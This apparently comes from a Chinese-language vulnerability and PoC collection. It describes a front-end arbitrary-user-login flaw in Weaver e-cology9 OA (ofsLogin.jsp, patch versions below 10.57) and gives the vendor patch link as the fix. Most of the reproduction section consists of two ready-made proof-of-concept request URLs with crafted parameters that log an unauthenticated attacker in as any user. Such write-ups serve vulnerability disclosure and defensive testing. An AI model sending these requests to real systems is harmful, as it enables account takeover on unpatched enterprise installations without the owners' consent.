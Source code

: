 # 泛微OA E-Cology ofsLogin.jsp 前台任意用户登录漏洞

## 漏洞描述

泛微 e-cology 前台任意用户登录漏洞：泛微 e-cology9 部分版本中存在前台任意用户登录漏洞。该漏洞允许未经身份验证的攻击者通过发送构造的请求触发漏洞，成功利用此漏洞的攻击者可登录任意用户。

## 漏洞影响

```
部分 e-cology9 且补丁版本 < 10.57
```

## 漏洞复现

poc1

```
/mobile/plugin/1/ofsLogin.jsp?syscode=syscode&timestamp=2&gopage=3&receiver=test&loginTokenFromThird=
```

poc2

```
/mobile/plugin/1/ofsLogin.jsp?gopage=/wui/index.html&loginTokenFromThird=866fb3887a60239fc112354ee7ffc168&receiver=1&syscode=1&timestamp
```

## 漏洞修复

目前，官方已发布修复建议，建议受影响的用户尽快升级至最新版本的补丁。下载地址：https://www.weaver.com.cn/cs/securityDownload.asp#